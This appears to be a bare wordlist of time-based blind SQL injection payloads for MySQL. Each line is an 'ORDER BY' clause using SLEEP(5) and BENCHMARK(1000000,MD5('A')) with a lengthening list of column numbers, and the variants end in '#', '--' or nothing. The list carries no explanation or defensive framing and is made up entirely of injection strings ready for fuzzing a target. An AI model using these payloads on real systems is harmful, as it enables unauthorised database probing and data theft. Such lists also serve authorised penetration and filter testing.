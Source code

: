 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
 ORDER BY SLEEP(5)#
 ORDER BY 1,SLEEP(5)#
 ORDER BY 1,SLEEP(5),3#
 ORDER BY 1,SLEEP(5),3,4#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30#
 ORDER BY SLEEP(5)-- 
 ORDER BY 1,SLEEP(5)-- 
 ORDER BY 1,SLEEP(5),3-- 
 ORDER BY 1,SLEEP(5),3,4-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13-- 